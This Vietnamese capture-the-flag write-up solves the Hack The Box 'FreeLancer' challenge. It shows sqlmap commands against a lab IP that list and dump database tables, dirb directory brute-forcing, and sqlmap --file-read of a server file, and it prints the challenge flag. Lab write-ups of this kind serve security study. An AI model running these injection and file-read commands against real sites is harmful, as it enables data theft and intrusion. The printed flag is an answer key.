 # FreeLancer

Đầu tiên ta thấy search file .php trong source code của trang web

![image](https://user-images.githubusercontent.com/73061198/124387156-9ccb2280-dd07-11eb-8650-a7991ea34901.png)

truy cập vào đuôi **portfolio.php?id=1**

![image](https://user-images.githubusercontent.com/73061198/124387187-c08e6880-dd07-11eb-878d-f3e491ca1366.png)

Câu này là 1 câu **Sql injection**

Chúng ta sẽ sử dụng sqlmap để khai thác lỗ hổng **sqlmap -u** [**http://188.166.169.77:30099/portfolio.php?id=1**](http://188.166.169.77:30099/portfolio.php?id=1) **--tables**

![image](https://user-images.githubusercontent.com/73061198/124387272-0e0ad580-dd08-11eb-9bab-a93cd778d86a.png)

Chúng ta thấy table **safeadm** sau đó truy cập vào table

**sqlmap -u** [**http://188.166.169.77:30099/portfolio.php?id=1**](http://188.166.169.77:30099/portfolio.php?id=1) **-T safeadmin --dump**

![image](https://user-images.githubusercontent.com/73061198/124387314-414d6480-dd08-11eb-8262-c6caed704613.png)

Vl nó dell phải password vì mình không biết decode kiểu j nên mình sẽ dùng **dirb**  


![image](https://user-images.githubusercontent.com/73061198/124387473-0c8ddd00-dd09-11eb-807f-3658643136d7.png)

ta thấy đường dẫn **/administrat/** sau đó chúng ta tiếp tục dùng **dirb** để brrute force  


![image](https://user-images.githubusercontent.com/73061198/124387561-537bd280-dd09-11eb-8354-2f994d3ba0ec.png)

/panel.php chúng ta sẽ sử dụng **sqlmap -u** [**http://188.166.169.77:30099/portfolio.php?id=1**](http://188.166.169.77:30099/portfolio.php?id=1) **--file-read=/desktop/www/html/administrat/panel.php**  
sau đó dùng câu lệnh cat để đọc flag  


![image](https://user-images.githubusercontent.com/73061198/124387621-858d3480-dd09-11eb-8261-ed8daf0d4014.png)

![image](https://user-images.githubusercontent.com/73061198/124387646-976ed780-dd09-11eb-9b1b-a99f794ab9b4.png)

flag : HTB{s4ff\_3\_1\_w33b\_fr4\_\_l33nc\_3}

